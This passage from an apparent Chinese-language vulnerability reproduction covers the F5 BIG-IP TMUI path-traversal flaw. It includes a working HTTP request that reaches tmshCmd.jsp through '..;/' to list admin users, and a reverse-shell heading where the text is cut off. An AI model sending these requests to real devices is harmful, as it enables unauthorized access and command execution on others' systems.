   
  
方式二：tmsh命令语法  
  
除了使用上面这种通过alias将bash设置别名来实现命令执行的效果外，我们还可以使用BIG-IP的一些内置的命令，例如：  
- list auth user——查看所有用户  
  
- list auth user admin ——仅仅查看admin用户  
  
有人可能会好奇，为什么方式一中要将bash的别名设置为list，而这里也是tmsh内置的list指令呢？这是因为在WorkspaceUtils.java文件中对operation操作类型有检测，只允许create\delete\list\modify四种类型，这在漏洞分析部分有详细描述~  
  
关于通过tmsh的list命令查看用户信息的描述可参考：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions  

```
tmshCmd.jsp?command=list+auth+user                      #使用list直接执行命令查看所有用户
tmshCmd.jsp?command=list+auth+user+admin               #使用list直接执行命令查看admin用户
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHib93ojUxHkCXYjBiaa2TQGmia6ibq8ayicR3LKzd9eIFibNaKYESr6UIT7Xw/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
PS:这里补充一句，当用户登录一次之后，即便是用户退出之后，我们依旧可以实施攻击，关键是要用户登录一次，这应该是服务器端的Session过期机制所致  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHPGgASZ4VGYgaMw4RSZdoOegrb4jwpunAH2hHOcJmd2d9qm4YsN1pmw/640?wx_fmt=png "")  
  
依旧执行：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHdoOu5wj2GW4SojjK2CDkE0WJ1Ms5Op9CnibplFhV4JyMv0oKBL6ye3g/640?wx_fmt=png "")  
###### 反弹shell  
  
在反弹shell时我们可以通过上述的RCE来实现，其中第二种方式可能并不适用，在这里我们要通过alias将bash设置别名为list之后实现反弹shell的操作，具体的操作流程如下：  
  